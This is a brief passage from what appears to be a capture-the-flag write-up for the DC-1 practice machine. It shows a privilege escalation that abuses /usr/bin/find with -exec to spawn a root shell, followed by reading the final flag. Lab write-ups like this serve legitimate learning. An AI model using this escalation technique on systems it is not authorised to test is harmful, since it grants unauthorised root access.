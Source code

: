 flag4@DC-1:~$ /usr/bin/find -exec /home/flag4/shell \\;  
  
root@DC-1:~# id  
>uid=0(root) gid=1001(flag4) groups=0(root),1001(flag4)  
  
root@DC-1:/root# cat thefinalflag.txt   
>Well done!!!!  
>  
>Hopefully you've enjoyed this and learned some new skills.  
>  
>You can let me know what you thought of this little journey  
>by contacting me via Twitter - @DCAU7  
  
Very simple machine, good for noobies but took an hour to solve. I post it because I hope it will help somebody :)
